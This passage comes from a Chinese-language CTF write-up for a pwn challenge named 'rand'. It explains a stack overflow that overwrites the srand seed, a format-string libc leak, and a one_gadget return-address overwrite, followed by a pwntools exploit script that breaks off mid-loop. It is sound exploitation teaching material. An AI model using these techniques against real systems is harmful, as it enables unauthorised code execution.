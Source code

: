 ```python
payload='a'*0x20+'b'*8+p64(libc_base+one_gadget_offset)
p.send(payload)
p.interactive()
```

### rand

这个题是我出的一个题，具体结合了格式化字符串还有栈上变量的覆盖

#### 程序分析

![1W9bAU.png](https://s2.ax1x.com/2020/02/08/1W9bAU.png)

没有canary和PIE

![1W9qNF.png](https://s2.ax1x.com/2020/02/08/1W9qNF.png)

`read(0,&buf,0x30)`很明显能溢出到`seed`，覆盖其为我们控制的值就可以预测rand()产生的值

通过随机数检测之后，下面有一个格式化字符串漏洞，是将我们前面用来覆盖`seed`输入的name打印出来，直接打印栈上任何存在的一个`libc`地址即可（可以直接看有没有哪个值是属于`libc`的），但是其中main函数的返回地址固定是`___libc_start_main`中的偏移，具体见我之前暑假写的ELF执行全流程，所以计算出调用`printf`时这个返回地址的偏移即可

payload1(name)：`p.send('%19$p'.ljust(0x28,'a')+p64(0))`

最后一个say something只能使用`one_gadget`，因为溢出字节只到了返回地址

payload2：`payload='\x00'*0x50+'b'*8+p64(libc_base+0x45216)`

#### Exploit

```python
# -*- coding: utf-8 -*-
from __future__ import print_function
from pwn import *
from ctypes import *

binary = './rand'	#binary's name here
context.binary = binary		#context here
context.log_level='debug'
pty = process.PTY
p = process(binary, aslr = 1, stdin=pty, stdout=pty)	#process option here
'''
Host =
Port =
p = remote(Host,Port)
'''
elf = ELF(binary)
libc = elf.libc

my_u64 = lambda x: u64(x.ljust(8, '\0'))
my_u32 = lambda x: u32(x.ljust(4, '\0'))
ub_offset = 0x3c4b30
codebase = 0x555555554000
#log.info("\033[1;36m" + hex(bin_addr) + "\033[0m")

# todo here
lib = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
lib.srand(0)

#gdb.attach(p,"b *0x40081C")
p.recvuntil('name?\n')

p.send('%19$p'.ljust(0x28,'a')+p64(0))

p.recvuntil('rand game\n')
for x in range(10):
```